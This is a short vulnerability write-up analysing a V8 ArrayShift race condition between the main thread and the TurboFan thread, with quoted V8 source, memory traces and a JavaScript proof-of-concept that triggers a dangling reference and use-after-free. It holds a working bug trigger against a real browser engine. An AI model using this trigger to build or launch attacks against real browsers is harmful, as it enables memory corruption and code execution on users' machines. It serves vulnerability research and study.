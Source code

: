 # ArrayShift Race Condition.

## TL;DR:
- Getting a double reference from the main thread and the turbofan thread to create a confusion. Thereby giving us a dangling pointer and UAF.

## Analysis:
- Builtins, ArrayShift:
    - remove the first element in the array and move the entire array left by 1. Free's the elements pointer and reallocates it.
    
- ReduceElementLoadFromHeapConstant():
    - When a value is being used continuously, it gets optimized to be used as a constant untill the cow array is changed.
    - tl;dr creates a reference to the element.

## Bug:
- When the turbofan thread does `ReduceElementLoadFromHeapConstant` it creates a reference to the array's element. Parallelly the main thread excecutes the shift prototype which will cause the reference to point to a free region in heap.
- Race: 
    -> turbofan - readuce heap constant
        ---     time gap    ---
    -> runtime 

```c
//  src/compiler/js-heap-broker.cc
return FixedArrayBaseRef(
        broker(), broker()-&gt;CanonicalPersistentHandle(object()-&gt;elements()));
```
> Will give you the pointer to the elements fixed array. PS: Handles are tracked by the v8 GC.

- filler object will be put in the place of the first element, after an ArrayShit happens.
```c
//  src/heap/heap.cc
CreateFillerObjectAt(old_start, bytes_to_trim,
                    MayContainRecordedSlots(object)
                        ? ClearRecordedSlots::kYes
                        : ClearRecordedSlots::kNo);
```

```
elements: 0x12fa08295ee1 <FixedArray[145]>
elements: 0x12fa08295ee5 <FixedArray[144]> 
elements: 0x12fa08295ee9 <FixedArray[143]>
After each shift operation in memory.
```

## Exploit:
```js
function exploit() {
    let bug_size = 120;
    let push_obj = [6969];
    let barr = [1.1];

    for(let i=0;i<bug_size;i++){
        barr.push(push_obj)
    }

    function dangling_ref() {

        barr.shift();
        for (let v19 = 0; v19 < 10000; v19++) {}
        let a = barr[0];

        gc();
        for (let v19 = 0; v19 < 500; v19++) {}
    }
    for (let i = 0; i < 4; i++) {
        dangling_ref();
    }
}
  
exploit();
```

## Reference:
- https://blog.exodusintel.com/2023/05/16/google-chrome-v8-arrayshift-race-condition-remote-code-execution/